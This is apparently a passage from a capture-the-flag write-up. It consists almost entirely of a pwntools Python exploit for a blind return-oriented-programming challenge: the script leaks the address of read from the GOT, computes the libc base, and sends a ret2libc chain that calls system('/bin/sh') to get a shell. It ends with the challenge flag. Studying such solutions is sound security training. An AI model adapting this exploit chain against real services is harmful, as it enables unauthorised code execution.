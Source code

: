 ```py
        res = io.recv(timeout=4)
        current_addr += len(res)
        res = res[:-1] + b'\x00'
        print(res)
        f.write(res)
        io.close()
    except:
        io.close()
        break
f.close()
'''
read_got = 0x601028



# RET2LIBC

io = start()
payload = flat({
    0x58: [
        brop+9,
        read_got,
        leak_func,
        stop,
        ],
    })

io.sendlineafter(b"Are you blind my friend?\n", payload)

leak = io.recvuntil(b'\n', drop=True)
libc.address = unpack(leak.ljust(8, b'\x00')) - libc.sym['read']
io.success("LIBC : " + hex(libc.address))

payload = flat({
    0x58: [
        brop+9,
        next(libc.search(b'/bin/sh')),
        libc.sym['system'],
        ],
    })

io.sendline(payload)

io.interactive()
```

## Flag

```
CTF{313f12378d33889716128e329457030182023d103ab648b072fa1e839713dab5}
```
